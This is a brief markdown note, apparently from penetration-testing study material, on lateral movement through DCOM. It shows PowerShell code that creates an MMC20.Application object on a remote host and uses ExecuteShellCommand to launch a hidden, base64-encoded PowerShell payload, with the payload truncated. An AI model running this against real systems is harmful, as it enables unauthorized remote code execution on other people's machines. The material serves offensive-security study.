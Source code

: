 ## DCOM
- DCOM is performed over RPC on TCP port 135 and local administrator access is required
- We can use an elevated `powershell` prompt to instantiate a remote MMC 2.0 application
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAa...AcKA==","7")
```

